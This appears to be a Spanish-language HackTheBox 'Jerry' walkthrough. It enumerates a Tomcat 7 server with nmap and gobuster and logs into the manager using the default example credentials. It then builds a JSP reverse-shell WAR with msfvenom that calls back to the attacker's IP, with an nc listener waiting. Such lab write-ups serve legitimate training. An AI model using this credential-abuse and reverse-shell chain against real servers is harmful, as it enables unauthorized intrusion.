

repository: scarlgyx/scarlgyx-cybersecurity · page: writeups/hackthebox/jerry/index.html · generator: mkdocs

# Jerry

```bash
nmap -p- --open -sCV --min-rate=5000 -n 10.129.136.9 -oN nmapResult.txt
```

![](../../assets/img/Pasted_image_20260511171045.png)

- Por el ttl vemos que es un windows

```bash
nmap --script http-enum 10.129.136.9
```

![](../../assets/img/Pasted_image_20260511171431.png)

- Vemos un tomcat 7.0.88 en el servidor http expuesto en el puerto 8080

- Hacemos web discovery con gobuster y un diccionario de tomcat
```bash
find /usr/share/seclists -iname \*tomcat\*
```

- /usr/share/seclists/Discovery/Web-Content/Web-Servers/Apache-Tomcat.txt
Directorios comunes en tomcat -> **/manger/html**

```bash
gobuster dir -u http://10.129.136.9:8080 -w /usr/share/seclists/Discovery/Web-Content/Web-Servers/Apache-Tomcat.txt -t 200 -x html,php,txt
```

![](../../assets/img/Pasted_image_20260511174553.png)

- Vemos un **manager** que nos pide unas credenciales

![](../../assets/img/Pasted_image_20260511174621.png)

- No funciona con passwords default en principio
Nos sale este mensaje

![](../../assets/img/Pasted_image_20260511233831.png)

- Vemos que pone de ejemplo las credenciales tomcat:s3cretç

- Al cerrar el navegador y volver a acceder a http://10.129.136.9:8080/host-manager/html con las credenciales de "ejemplo" conseguimos acceso

![](../../assets/img/Pasted_image_20260511233941.png)

- Vemos info acerca del servidor

![](../../assets/img/Pasted_image_20260511234036.png)

amd64 Windows Server 2012 R2

- Vemos que nos deja también subir un archivo WAR

![](../../assets/img/Pasted_image_20260511234458.png)

- Buscaremos con msfvenom un payload de java que sea archivo WAR
```bash
msfvenom -l payloads
```

![](../../assets/img/Pasted_image_20260511235532.png)

Vemos uno que nos establece una *reverse_shell_tcp* que es lo que queremos

-
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.15.36 LPORT=443 -f war -o shell.war
```

Nos creamos un archivo en formato war con el payload seleccionado, que envíe la shell a nuestra IP atacante por el puerto 443

- Nos ponemos a la escucha con
```bash
nc -nlvp 443
```

Subimos el *shell.war* y entramos en el nuevo directorio creado

![](../../assets/img/Pasted_image_20260512000204.png)
